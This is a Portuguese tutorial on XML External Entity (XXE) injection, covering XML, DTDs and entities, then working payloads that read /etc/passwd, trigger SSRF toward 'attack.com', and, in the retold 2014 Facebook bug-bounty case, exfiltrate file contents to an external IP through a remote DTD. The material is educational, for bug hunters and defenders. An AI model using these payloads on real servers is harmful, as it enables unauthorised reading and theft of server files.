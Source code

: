 # XML External Entity

### Oque é:

Esta falha ocorre quando o atacante consegue manipular o conteúdo de um arquivo XML ao enviá-lo para o servidor, fazendo com que o mesmo processe o arquivo e execute um código malicioso, esta falha pode em alguns casos escalar para um total comprometimento dele, ela também pode ser usada junto a um server-side request forgery.

### XML:

Primeiro irei esclarecer o que é o eXtensible Markup Language, ele é uma linguagem de marcação usada para descrever e compartilhar diversos tipos de dados, para isso são usados tags como no HTML entretanto no XML elas não são predefinidas e todas dever ser fechadas.

O XML esta caindo em desuso para transporte de dados na internet devido a sua alta escalabilidade de tamanho, agora o modelo usado é o JSON.

Este é um exemplo de um documento xml:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!-- Na primeira linha é definido o tipo do arquivo sua versão e o encoding usado -->
<raiz><!-- Aqui definimos o elemento raiz, os aquivos xml podem conter somente um dele-->
<!-- Todas as tags dentro da raiz são suas filhas-->
<!-- Podem existir várias tags filhas com o mesmo nome -->
	<filho>
		<Nome>Thiago</Nome>
		<Idade>17</Idade>
	</filho>
	<filho>
		<Nome>Carlos</Nome>
		<Idade>23</Idade>
	</filho>
	<filho>
		<Nome>Claudia</Nome>
		<Idade>40</Idade>
	</filho>
</raiz><!-- Aqui fechamos raiz, tudo dentro dela é sua filha -->
```

Dentro do xml existe um o conceito de DTD, que é um Document Type Definition, eles são usados para descrever como o arquivo xml será, sua sintaxe é simples, veja:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!-- Usamos o DOCTYPE para declarar o inicio de um elemento raiz -->

<!DOCTYPE raiz [

    <!ELEMENT raiz (nome,telefone)>
	<!-- Dentro dele definimos seus elementos filhos usando a tag element -->
    <!ELEMENT nome (#PCDATA)>
    <!-- E definimos como os elementos filhos serão neste caso,texto --> 	
    <!ELEMENT telefone (#PCDATA)>
]>
<!-- Abaixo é feita a declaração deles -->
<raiz>
  <nome>Thiago</nome>
  <telefone>(011) 123-4567</telefone>
</raiz>
```

o exemplo acima é de um DTD interno mas eles também podem ser adquiridos externamente:
```xml

<?xml version="1.0" encoding="UTF-8" standalone="no" ?>
<!DOCTYPE endereço SYSTEM "endereço.dtd"><!--Usamos o comando SYSTEM para definir o caminho do arquivo -->
<endereço>
  <nome>Thiago</nome>
  <telefone>(011) 123-4567</telefone>
</endereço>
```

Para explorar esta falha também devemos entender o conceito de ```ENTITY``` que são basicamente variáveis que podem ser chamadas no arquivo xml, elas também podem se referir a valores internos e externos, sua sintaxe é muito simples simples:
```xml
<!ENTITY entity-name "entity-value">
```
Um exemplo dela é:

```xml

<?xml version="1.0" encoding="UTF-8" standalone="no" ?>
<!DOCTYPE foo [<!ENTITY nome "Thiago">] ><!--Aqui criamos uma variável chamada nome e guardamos dentro dela a string Thiago-->
<endereço>
  <nome>&nome;</nome><!--Aqui chamamos a variável nome-->
  <telefone>(011) 123-4567</telefone>
</endereço>
```

O código acima se referia a entity's internas, as externas são declaradas assim:

```xml

<?xml version="1.0" encoding="UTF-8" standalone="no" ?>
<!DOCTYPE foo [<!ENTITY nome SYSTEM "htpps://exemplo.com">] >
<endereço>
  <nome>&nome;</nome>
  <telefone>(011) 123-4567</telefone>
</endereço>
```

Sua sintaxe é idêntica à DTD externos.

### Funcionamento técnico:

Como você já deve ter imaginado o 'problema' desta falha está quando podemos setar DTD's e atrelar uma entity externa a ele, ao enviar um xml como este para uma página:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
o body da response conteria isto:
```
Quantidade de produtos para 381: 37
```

como pode ser percebido, o valor setado é refletido na response, logo podemos injetar um valor malicioso como este:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><!-- Aqui setamos o que seria um DDT externo
e guardamos seu valor dentro da 'variável' xxe-->
<stockCheck><productId>&xxe;</productId></stockCheck><!-- Chamamos a 'variável' usando o &xxe;-->
```

a response nesse caso conteria o valor do arquivo ```/etc/passwd```.

Esse ataque também pode ser usado para gerar um SSRF, como citado acima, para isto basta substituir o valor do arquivo para um valor HTTP.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://attack.com"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

Caso o valor não seja refletido na response, tente fazer como foi ensinado no artigo sobre [SSRF](Server%20Side%20Request%20Forgery.md), injete um site sob seu domínio e analise se a response chega ou não, caso chegue o mesmo é vulnerável a SSRF por XXE.

### Exemplo:

No final de 2013, Reginaldo Silva reportou uma falha do tipo xxe para o facebook e recebeu $30000, ela poderia facilmente ser escalada para uma falha do tipo remote code execution já que o atacante poderia ler os arquivos ```/etc/passwd```, ela foi corrigida logo em seguinte.

Sabendo disso, no meio de 2014, Mohamed decidiu ver se conseguiria hackear o facebook, ele acessou uma página de carreiras na qual o usuário poderia sertar uma arquivo docx, esta extensão foi uma junção do doc com o xml, ela foi feita para facilitar a abertura e manipulação de arquivos doc, caso queira é possível extrair um arquivo docx você encontrará algo parecido com isto:


![](https://www.devmedia.com.br/imagens/articles/233575/openxmlexe3.png)

Ao perceber que poderia injetar um arquivo docx, o pesquisador extraiu o mesmo e injetou no xml esta carga maliciosa:

```xml
<!DOCTYPE root [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % dtd SYSTEM "http://197.37.102.90/ext.dtd">
%dtd;
%send;
]]>
```
como podem perceber o valor ```%dtd``` faz referência a um arquivo dtd externo, e ao chamá-lo é verificado uma entity como esta:

```xml
<!ENTITY send SYSTEM 'http://197.37.102.90/?FACEBOOK-HACKED%26file;'>
```
ao enviar este payload o pesquisador percebeu requests chegando em seu servidor python, logo o facebook estava vulnerável a xxe novamente.

A princípio o facebook não conseguiu reproduzir a falha, por isto Mohamed quase não recebeu o bounty, mas após algumas trocas de emails a rede social encontrou e corrigiu a falha.

O pesquisador recebeu $6300 por esta falha, o valor foi menor que o de 2013 pois lá era possível escalar a falha para um Remote Code Execution irei explicar RCE com XXE no próximo artigo.

### Como explorar:

Não há muitos segredos na exploração desta falha, esteja atento a arquivos XML que podem ser manipulados, caso os encontre e o valor seja refletido tente definir entitys externas para leitura de arquivos ou caso o não seja refletido tente injetar uma entity que faça referência a um servidor o qual você pode analisar a interação.
